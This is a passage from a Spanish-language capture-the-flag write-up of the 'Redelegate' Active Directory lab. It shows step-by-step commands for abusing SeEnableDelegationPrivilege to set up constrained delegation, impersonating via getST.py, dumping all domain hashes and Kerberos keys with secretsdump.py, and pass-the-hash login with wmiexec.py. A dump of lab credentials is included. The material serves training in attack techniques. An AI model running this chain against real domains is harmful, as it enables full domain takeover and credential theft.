
</p>

### Shell as Administrator

#### Enumeración

```
whoami /priv
```

<p align="center">

</p>

`SeEnableDelegationPrivilege` está relacionado con la configuración de la delegación en Active Directory.

Existen tres tipos de delegación en Active Directory de Windows:

**Delegación sin restricciones**: Una máquina configurada con este mecanismo tiene la capacidad de almacenar un TGT para cualquier usuario que se conecte a ella, y utilizarlo para autenticarse como ese usuario. Para configurar esto, una cuenta con `SeEnableDelegationPrivilege` modificará el atributo `userAccountControl` de la máquina para incluir la bandera `TRUSTED_FOR_DELEGATION` .

**Delegación restringida**: Una máquina configurada con este mecanismo puede hacerse pasar por un usuario específico en una máquina determinada. La bandera " `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` " en " `userAccountControl` " se establece (por un usuario con " `SeEnableDelegationPrivilege` "), y el atributo " `msDS-AllowToDelegate` " se configura con el SPN al que la máquina puede autenticarse.

**Delegación basada en recursos (RBCD)** - Esta configuración permite que una máquina controle quién puede delegar a ella. `SeEnableDelegationPrivilege` no está involucrado en este proceso.

Se podría considerar usar **FS01$**, que **Helen.Frost** tiene en `GenericAll` , pero esto no es un ordenador real al que pueda acceder.

#### SeEnableDelegationPrivilege

Los siguientes comandos se ejecutará en el **evil-wirm**:

```
Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"servicePrincipalName"="host/FS01.redelegate.vl"}
```

- **¿Qué hace?** Añade un Service Principal Name (**SPN**) al atributo `servicePrincipalName` del objeto de máquina `FS01$`.

- **¿Por qué es necesario en este ataque?** Para que Kerberos permita ejecutar **S4U2Self** (la extensión mediante la cual la cuenta `FS01$` le pide al KDC un ticket para sí misma en nombre de otro usuario, como `Administrator`), es un requisito estricto de Active Directory que la cuenta que solicita el ticket tenga al menos un SPN configurado. Sin esto, el KDC responde con el error `KDC_ERR_BADOPTION`.

```
Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"=@("ldap/dc.redelegate.vl", "ldap/dc")}
```

- **¿Qué hace?** Agrega los SPNs del controlador de dominio (`ldap/dc.redelegate.vl` y `ldap/dc`) a la lista de servicios autorizados en el atributo `msDS-AllowedToDelegateTo` de la cuenta `FS01$`.

- **¿Por qué es necesario en este ataque?** Este atributo define la **Delegación Restringida** (_Constrained Delegation_). Le indica a Kerberos a qué servicios específicos del dominio se le permite a `FS01$` reenviar tickets de usuarios mediante la extensión **S4U2Proxy**. Al agregar la versión FQDN (`dc.redelegate.vl`) y el nombre corto (`dc`), aseguras que coincida sin importar cómo resuelva el KDC.

```
Get-ADComputer -Identity "FS01$" -Properties servicePrincipalName | Select-Object -ExpandProperty servicePrincipalName
```

- **¿Qué hace?** Consulta el objeto de la computadora `FS01$` en Active Directory, extrae la propiedad `servicePrincipalName` y muestra únicamente su contenido en la pantalla.

- **¿Por qué es útil?** Es la comprobación para confirmar que el primer comando funcionó correctamente y que el atributo ya no está vacío, devolviendo valores como `host/FS01.redelegate.vl`.

>host/FS01.redelegate.vl

#### Obtener un ticket TGT/ST

Luego, en mi kali, realizo este comando:

```
getST.py 'redelegate.vl/FS01$:Password123' -spn ldap/dc.redelegate.vl -impersonate dc
```

Si el comando se ejecuta con éxito, generará un archivo de caché (por ejemplo `dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache`), el cual puedes exportar mediante `export KRB5CCNAME=...` para autenticarte como `dc` en las herramientas de Impacket sin conocer su contraseña real.

<p align="center">

</p>

```
KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache secretsdump.py -k -no-pass dc.redelegate.vl
```

Si el ticket `.ccache` es válido y fue generado exitosamente para una cuenta con privilegios suficientes (como `dc` o `Administrator`), el comando volcará en la pantalla los hashes de todas las cuentas del dominio con la siguiente estructura:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9288173d697316c718bb0f386046b102:::
Christine.Flanders:1104:aad3b435b51404eeaad3b435b51404ee:79581ad15ded4b9f3457dbfc35748ccf:::
Marie.Curie:1105:aad3b435b51404eeaad3b435b51404ee:a4bc00e2a5edcec18bd6266e6c47d455:::
Helen.Frost:1106:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Michael.Pontiac:1107:aad3b435b51404eeaad3b435b51404ee:f37d004253f5f7525ef9840b43e5dad2:::
Mallory.Roberts:1108:aad3b435b51404eeaad3b435b51404ee:980634f9aabfe13aec0111f64bda50c9:::
James.Dinkleberg:1109:aad3b435b51404eeaad3b435b51404ee:2716d39cc76e785bd445ca353714854d:::
Ryan.Cooper:1117:aad3b435b51404eeaad3b435b51404ee:062a12325a99a9da55f5070bf9c6fd2a:::
sql_svc:1119:aad3b435b51404eeaad3b435b51404ee:76a96946d9b465ec76a4b0b316785d6b:::
DC$:1002:aad3b435b51404eeaad3b435b51404ee:bfdff77d74764b0d4f940b7e9f684a61:::
FS01$:1103:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:db3a850aa5ede4cfacb57490d9b789b1ca0802ae11e09db5f117c1a8d1ccd173
Administrator:aes128-cts-hmac-sha1-96:b4fb863396f4c7a91c49ba0c0637a3ac
Administrator:des-cbc-md5:102f86737c3e9b2f
krbtgt:aes256-cts-hmac-sha1-96:bff2ae7dfc202b4e7141a440c00b91308c45ea918b123d7e97cba1d712e6a435
krbtgt:aes128-cts-hmac-sha1-96:9690508b681c1ec11e6d772c7806bc71
krbtgt:des-cbc-md5:b3ce46a1fe86cb6b
Christine.Flanders:aes256-cts-hmac-sha1-96:ceb5854b48f9b203b4aa9a8e0ac4af28b9dc49274d54e9f9a801902ea73f17ba
Christine.Flanders:aes128-cts-hmac-sha1-96:e0fa68a3060b9543d04a6f84462829d9
Christine.Flanders:des-cbc-md5:8980267623df2637
Marie.Curie:aes256-cts-hmac-sha1-96:616e01b81238b801b99c284e7ebcc3d2d739046fca840634428f83c2eb18dbe8
Marie.Curie:aes128-cts-hmac-sha1-96:daa48c455d1bd700530a308fb4020289
Marie.Curie:des-cbc-md5:256889c8bf678910
Michael.Pontiac:aes256-cts-hmac-sha1-96:eca3a512ed24bb1c37cd2886ec933544b0d3cfa900e92b96d056632a6920d050
Michael.Pontiac:aes128-cts-hmac-sha1-96:53456b952411ac9f2f3e2adf433ab443
Michael.Pontiac:des-cbc-md5:833dc82fab76c229
Mallory.Roberts:aes256-cts-hmac-sha1-96:c9ad270adea8746d753e881692e9a75b2487a6402e02c0c915eb8ac6c2c7ab6a
Mallory.Roberts:aes128-cts-hmac-sha1-96:40f22695256d0c49089f7eda2d0d1266
Mallory.Roberts:des-cbc-md5:cb25a726ae198686
James.Dinkleberg:aes256-cts-hmac-sha1-96:c6cade4bc132681117d47dd422dadc66285677aac3e65b3519809447e119458b
James.Dinkleberg:aes128-cts-hmac-sha1-96:35b2ea5440889148eafb6bed06eea4c1
James.Dinkleberg:des-cbc-md5:83ef38dc8cd90da2
Ryan.Cooper:aes256-cts-hmac-sha1-96:d94424fd2a046689ef7ce295cf562dce516c81697d2caf8d03569cd02f753b5f
Ryan.Cooper:aes128-cts-hmac-sha1-96:48ea408634f503e90ffb404031dc6c98
Ryan.Cooper:des-cbc-md5:5b19084a8f640e75
sql_svc:aes256-cts-hmac-sha1-96:1decdb85de78f1ed266480b2f349615aad51e4dc866816f6ac61fa67be5bb598
sql_svc:aes128-cts-hmac-sha1-96:88f45d60fa053d62160e8ea8f1d0231e
sql_svc:des-cbc-md5:970d6115d3f4a43b
DC$:aes256-cts-hmac-sha1-96:0e50c0a6146a62e4473b0a18df2ba4875076037ca1c33503eb0c7218576bb22b
DC$:aes128-cts-hmac-sha1-96:7695e6b660218de8d911840d42e1a498
DC$:des-cbc-md5:3db913751c434f61
```

#### Shell

```
wmiexec.py redelegate.vl/administrator@dc.redelegate.vl -hashes :ec17f7a2a4d96e177bfd101b94ffc0a7
```

<p align="center">

</p>

## Conclusión

**Redelegate** es una máquina Windows orientada a la explotación de vulnerabilidades en Active Directory. El vector inicial comienza con un acceso **FTP anónimo** que permite obtener una base de datos de KeePass (`Shared.kdbx`) y documentos de auditoría que revelan la política de contraseñas de la empresa (`SeasonYear!`);

Al crackear la base de datos se extraen las credenciales del usuario `SQLGuest`, permitiendo enumerar todos los usuarios del dominio mediante un ataque de _RID brute force_ en MSSQL y comprometer posteriormente a `Marie.Curie` mediante _password spraying_. 

A partir de ahí, la escalada se basa en el abuso de permisos y relaciones de confianza en Active Directory: `Marie.Curie` (miembro de `Helpdesk`) utiliza la ACL `ForceChangePassword` para tomar el control de `Helen.Frost`, quien cuenta con acceso a WinRM, pertenencia al grupo `IT` (con permisos `GenericAll` sobre el equipo `FS01$`) y el privilegio activo `SeEnableDelegationPrivilege`. 

Finalmente, se logra el compromiso total configurando manualmente la Delegación Restringida de Kerberos en `FS01$` hacia el servicio LDAP del Domain Controller para realizar un ataque de suplantación mediante _S4U2Self/S4U2Proxy_ (`getST.py`), dumpear las credenciales del dominio con `secretsdump.py` y tomar el control del sistema como `Administrator`.